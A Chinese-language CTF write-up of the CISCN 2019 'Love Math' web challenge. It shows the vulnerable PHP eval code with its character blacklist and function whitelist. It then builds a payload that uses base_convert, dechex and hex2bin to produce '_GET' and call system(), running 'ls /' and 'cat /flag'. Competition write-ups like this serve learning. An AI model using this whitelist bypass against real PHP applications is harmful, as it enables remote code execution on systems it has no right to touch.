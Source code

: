 ```yaml
---
layout: post
title: CISCN 2019 web wp
date: 2021-07-22 15:10 +0800
last_modified_at: 2021-07-22 15:10:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```


## 0x01 Love Math

关键词：敏感函数，代码执行

* 进入界面后发现源代码：

* ```
  <?php
  error_reporting(0);
  //听说你很喜欢数学，不知道你是否爱它胜过爱flag
  if(!isset($_GET['c'])){
      show_source(__FILE__);
  }else{
      //例子 c=20-1
      $content = $_GET['c'];
      if (strlen($content) >= 80) {
          die("太长了不会算");
      }
      $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
      foreach ($blacklist as $blackitem) {
          if (preg_match('/' . $blackitem . '/m', $content)) {
              die("请不要输入奇奇怪怪的字符");
          }
      }
      //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
      $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
      preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
      foreach ($used_funcs[0] as $func) {
          if (!in_array($func, $whitelist)) {
              die("请不要输入奇奇怪怪的函数");
          }
      }
      //帮你算出答案
      eval('echo '.$content.';');
  }
  ```

  可见这是只允许c中传入数学函数的一个题目

* ### 延伸知识：php敏感函数

* ```
  base_convert(37907361743,10,36) ==>"hex2bin"
  dechex(1598506324) ==>"5f474554"
  $pi = hex2bin("5f474554") ==>$pi="_GET"
  ```

  由于这三项基本信息，我们可以构造一个payload：

  ```
  c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=ls /
  ==> c=$pi=_GET;($_GET){pi}($_GET){abs}&pi=system&abs=ls /
  ```

  即效果为执行`system(ls /)`语句

  进一步构造payload：

  ```
  c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat /flag
  ```

  ![CIS1](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/CIS1.png)
